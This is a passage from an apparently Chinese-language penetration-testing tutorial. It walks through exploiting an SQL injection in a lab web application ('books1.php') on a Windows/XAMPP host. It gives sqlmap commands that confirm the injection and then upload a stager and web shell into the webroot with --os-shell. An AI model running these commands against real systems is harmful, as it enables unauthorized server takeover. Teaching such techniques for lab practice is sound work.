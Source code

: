 由于我们在 Linux 主机上利用了一个网络服务，我们将专注于利用 Web 应用程序的一个漏洞来获得对 shell 的访问。

# 在 Windows 上的利用

易受攻击的 Web 应用程序存在**SQL 注入**漏洞。SQL 注入允许攻击者注入任意的 SQL 查询并在后端 DBMS 上执行它们。此漏洞存在于以下 URL 上：

```
http://<ip>/books1.php?title=&author=t
```

在可能以管理员权限运行的 Web 应用程序上发生的 SQL 注入意味着可能完全接管 Web 应用程序。为此，我们将使用`sqlmap`。要使用`sqlmap`攻击 URL，语法如下：

```
sqlmap --url="http://<IP>/books1.php?title=&author=t"
```

`sqlmap`确认存在注入漏洞，如下所示：

![](img/4218cacc-b63b-432e-8e6b-f5dc63e5339d.png)

下一步是使用`sqlmap`在远程服务器上获得 shell 访问权限。`sqlmap`带有一个非常方便的功能，可以上传一个分段器，用于将进一步的文件上传到 webroot。然后它通过上传一个执行命令并返回命令输出的 Web shell 来跟进，所有这些都可以通过一个命令完成。为了触发这个，执行以下命令：

```
sqlmap --url="http://<IP>/books1.php?title=&author=t" --os-shell --tmp-path=C:\\xampp\\htdocs
```
